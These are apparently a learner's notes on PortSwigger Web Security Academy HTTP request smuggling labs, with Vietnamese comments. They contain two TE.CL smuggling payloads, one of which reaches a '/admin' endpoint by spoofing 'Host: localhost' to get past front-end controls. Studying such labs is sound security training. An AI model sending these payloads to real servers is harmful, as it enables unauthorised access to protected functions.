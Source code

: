 ## confirming a TE.CL vulnerability (với loại này cần tắt update content length)

payload:

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

thêm `\r\n\r\n` sau `0`

## basic TE.CL vulnerability

## Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

payload:

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

thêm `\r\n\r\n` sau `0`

## Exploiting HTTP request smuggling to reveal front-end request rewriting
